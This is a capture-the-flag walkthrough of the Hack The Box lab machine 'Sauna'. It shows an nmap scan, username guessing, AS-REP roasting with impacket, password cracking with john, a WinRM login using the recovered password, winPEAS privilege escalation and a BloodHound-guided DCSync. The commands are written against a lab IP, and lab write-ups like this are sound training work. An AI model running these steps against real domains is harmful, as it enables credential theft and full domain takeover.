 ```yaml
---
layout: post
title: Hack The Box - Sauna
category: walkthrough
date:   2020-07-28 05:00:00
---
```


# ![sauna](/assets/img/sauna/sauna.png)  
  
<p align="center"> Sauna is a easy machine created by <a egotisticalSW href="https://www.hackthebox.eu/home/users/profile/94858"> egotisticalSW</a></p>

# Enum  
  
  
### <center>nmap</center>  
  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-28 02:53 -03  
>Nmap scan report for 10.10.10.175  
>Host is up (0.21s latency).  
>Not shown: 5920 filtered ports  
>PORT     STATE SERVICE       VERSION  
>53/tcp   open  domain?  
>| fingerprint-strings:   
>|   DNSVersionBindReqTCP: 
>|     version  
>|_    bind  
>80/tcp   open  http          Microsoft IIS httpd 10.0  
>| http-methods: 
>|_  Potentially risky methods: TRACE  
>|_http-server-header: Microsoft-IIS/10.0  
>|_http-title: Egotistical Bank :: Home  
>88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-07-28 12:57:59Z)  
>135/tcp  open  msrpc         Microsoft Windows RPC  
>139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn  
>389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)  
>445/tcp  open  microsoft-ds?  
>464/tcp  open  kpasswd5?  
>593/tcp  open  ncacn\_http    Microsoft Windows RPC over HTTP 1.0  
>636/tcp  open  tcpwrapped  
>3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)  
>3269/tcp open  tcpwrapped  
>5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
>|_http-server-header: Microsoft-HTTPAPI/2.0  
>|_http-title: Not Found  
>1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :  
>SF-Port53-TCP:V=7.70%I=7%D=7/28%Time=5F1FBD97%P=x86\_64-pc-linux-gnu%r(DNSV  
>SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\  
>SF:x04bind\0\0\x10\0\x03");  
>Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows  
  3268
>Host script results:  
>|_clock-skew: mean: 7h03m31s, deviation: 0s, median: 7h03m31s  
>| smb2-security-mode: 
>|   2.02: 
>|_    Message signing enabled and required  
>| smb2-time: 
>|   date: 2020-07-28 10:00:17  
>|_  start_date: N/A  
  
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 308.65 seconds  
  
<p align="center">  
nmap output show me the domain egotistical-bank.local, this is the domain controller.<br>  
nmap also show kerberos 88, IIS 80, ldap 389 and 3268, and 5985 using http, this port usually is WinRM.<br>  
<br>  
First thing I thought was <a href="https://www.tarlogic.com/en/blog/how-to-attack-kerberos/">kerberoasting</a><br>  
I used <a href="https://github.com/ifconfig-me/impacket">impacket</a>'s GetADUser.py, but got nothing...  
<br><br>  
In port 80 I got this page  
</p>  
  
# ![index](/assets/img/sauna/sauna1.png)  
  
<center>Searching something usefull I found usernames on page "About Us"</center>  
# ![users](/assets/img/sauna/sauna2.png)  
  
<p align="center">  
I creted a wordlist with this names, and some possibilities...<br>  
>f.smith<br>
>fsmith<br>  
>h.bear<br>  
>hbear<br>  
>s.coins<br>  
>scoins<br>  
>btaylor<br>  
>b.taylor<br>  
>s.driver<br>  
>sdriver<br><br>  
  
My wordlist have a lot more, but there's no need of all...  
<br>  
Now I can use impacket's GetNPUsers.py</p>  
  
  
### <center>Exploit</center>
<center>./GetNPUsers.py egotistical-bank.local/ -usersfile users.txt -request -no-pass -dc-ip 10.10.10.175 -format john  --outputfile hash</center>  
  
  
# ![fsmithHash](/assets/img/sauna/sauna3.png)  
  
<p align="center">
With the brute force of my friend john I cracked this hash  
<br>
<br>
john -w /usr/share/wordlists/rockyou.txt hash</p>  
  
  
# ![passwd](/assets/img/sauna/sauna4.png)  
  
<p align="center">The part I like most in attacking windows, is the <a href="https://github.com/Hackplayers/evil-winrm">evil</a> part
<br>  
./evil-winrm.rb -i 10.10.10.175 -p Thestrokes23 -u fsmith</p>  
  
# ![evilLogin](/assets/img/sauna/sauna5.png)  
  
### <center>Privilege Escalation</center>  
  
<p align="center">To privelige escalation in windows the first thing I use is <a href="https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASbat/winPEAS.bat">winPEAS.bat</a>  
<br><br>  
Uploaded winPEAS.bat with upload command of evil-winrm and executed it<br>
winPEAS spits a lot of informations about everything in the machine<br>  
and found a pass for other user</p>  
# ![svc](/assets/img/sauna/sauna6.png)  
  
<p align="center">Logged in as svc\_loanmgr and invoked the <a href="https://github.com/fox-it/BloodHound.py">hound</a></p>  
  
# ![bloodHound](/assets/img/sauna/sauna7.png)  
  
<center>ziped the json files and sent it to bloodhound</center>  
  
<center>The hound says: svc\_loanmgr is connected to egotistical-bank with getChangesAll and you should try a DCSYnc attack..</center>  
  
# ![HoundHelp](/assets/img/sauna/sauna8.png)  
  
<center>Let's get back to impacket</center>  
  
# ![hashdump](/assets/img/sauna/sauna9.png)  
  
<center>And evil again</center>  
  
# ![evilAdmin](/assets/img/sauna/sauna10.png)  
  
